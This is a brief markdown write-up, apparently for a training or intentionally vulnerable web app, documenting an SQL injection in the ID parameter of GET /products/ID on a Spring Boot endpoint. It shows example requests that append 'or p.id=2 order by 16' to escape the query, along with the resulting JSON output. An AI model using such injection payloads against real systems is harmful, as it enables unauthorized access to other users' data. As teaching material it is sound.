 # SQL Injection
SQL injection is a database query manipulation attack against structured query language (SQL) that allows attackers to escape the intended query to perform unintended/malicious actions.

## Exploitation
**Prerequisites:** _None_

**Location:** _GET /products/ID_

The ID parameter of GET /products/ID can be escaped since SpringBoot on this endpoint does not implement any protects filtering or isolating for clause fields.  Below is an exploitation example:

    # Receives Product ID 1 information
    GET /products/1 or p.id=2  order by 15

    # Receives Product ID 2 information when it should be Product ID 1
    GET /products/1 or p.id=2  order by 16

You'l see that adding _or p.id=2 order by 16_ changed the product output showing effectively that SQL was escaped

Successful exploitation looks like:

    {
    "id": ...,
    "name": ...,
    "brand": ...,
    "description": ...,
    "price": ...,
    "stock": ...,
    "productReviews": [{...}, {...}, ...],
    "averageReviewGrade": ...,
    "tagNames": [...],
    "image": ...
    }